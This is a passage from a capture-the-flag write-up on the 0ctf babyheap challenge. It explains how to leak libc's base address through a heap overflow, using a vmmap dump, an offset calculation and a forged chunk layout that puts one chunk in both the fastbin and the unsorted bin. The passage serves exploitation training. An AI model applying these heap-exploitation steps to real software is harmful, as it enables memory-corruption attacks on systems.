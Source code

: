 That adress can be used to calculate libc's base address. With `vmmap` we can determine the address of libc and take the address above from the chunk's fd and subtract them to get the offset between the FD pointer and the libc base.

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000269003212000 0x0000269003213000 0x0000000000000000 rw- 
0x0000563a85e3d000 0x0000563a85e3f000 0x0000000000000000 r-x /ctf/work/0ctfbabyheap
0x0000563a8603e000 0x0000563a8603f000 0x0000000000001000 r-- /ctf/work/0ctfbabyheap
0x0000563a8603f000 0x0000563a86041000 0x0000000000002000 rw- /ctf/work/0ctfbabyheap
0x0000563a86cf7000 0x0000563a86d18000 0x0000000000000000 rw- [heap]
0x00007f313fcfd000 0x00007f313fe94000 0x0000000000000000 r-x /glibc/2.23/64/lib/libc-2.23.so
0x00007f313fe94000 0x00007f3140094000 0x0000000000197000 --- /glibc/2.23/64/lib/libc-2.23.so
0x00007f3140094000 0x00007f3140098000 0x0000000000197000 r-- /glibc/2.23/64/lib/libc-2.23.so
0x00007f3140098000 0x00007f314009a000 0x000000000019b000 rw- /glibc/2.23/64/lib/libc-2.23.so
0x00007f314009a000 0x00007f314009e000 0x0000000000000000 rw- 
```
```python
>>> hex(0x00007f3140098b78-0x00007f313fcfd000)
'0x39bb78'
```

For this ctf challenge though, to actually leak the libc address without using gdb we need to take a few extra steps.

Since there is no UAF vulnerability, only a heap overflow, we can not just print the contents of the chunk holding the libc address after freeing it. We need to allocate 2 chunks that point to the same thing.

We can use the heap overflow to forge a chunk that can be free'd into both the fastbin and the unsorted bin.

Chunks needed (the numbers represent the index in the array of containing all the allocations):
1. Chunk to be used with the heap overflow to overwerite chunk 3's fd
2. Chunk to be free'd
3. Chunk to be free'd that will then contain the FD pointing to chunk 2
4. Chunk to be used with a heap overflow to adjust chunk 5's size allowing it to be in different bins
5. Chunk to be in both unsorted and fastbin
6. Chunk to stop from coalescing with top chunk/wilderness

The heap layout after chunks 2 and 3 have been free'd:

```
0x5633ccfb2000: 0x0000000000000000      0x0000000000000031    <--- Chunk 1
0x5633ccfb2010: 0x0000000000000000      0x0000000000000000
0x5633ccfb2020: 0x0000000000000000      0x0000000000000000
0x5633ccfb2030: 0x0000000000000000      0x0000000000000031    <-- Chunk 2
0x5633ccfb2040: 0x0000000000000000      0x0000000000000000
0x5633ccfb2050: 0x0000000000000000      0x0000000000000000
0x5633ccfb2060: 0x0000000000000000      0x0000000000000031    <--- Chunk 3
0x5633ccfb2070: 0x00005633ccfb2030      0x0000000000000000       |- FD pointing to chunk 2
0x5633ccfb2080: 0x0000000000000000      0x0000000000000000
0x5633ccfb2090: 0x0000000000000000      0x0000000000000031    <--- Chunk 4
0x5633ccfb20a0: 0x0000000000000000      0x0000000000000000
0x5633ccfb20b0: 0x0000000000000000      0x0000000000000000
0x5633ccfb20c0: 0x0000000000000000      0x0000000000000091    <--- Chunk 5
0x5633ccfb20d0: 0x0000000000000000      0x0000000000000000
0x5633ccfb20e0: 0x0000000000000000      0x0000000000000000
0x5633ccfb20f0: 0x0000000000000000      0x0000000000000000
0x5633ccfb2100: 0x0000000000000000      0x0000000000000000
0x5633ccfb2110: 0x0000000000000000      0x0000000000000000
0x5633ccfb2120: 0x0000000000000000      0x0000000000000000
0x5633ccfb2130: 0x0000000000000000      0x0000000000000000
0x5633ccfb2140: 0x0000000000000000      0x0000000000000000
0x5633ccfb2150: 0x0000000000000000      0x0000000000000031    <--- Chunk 6
```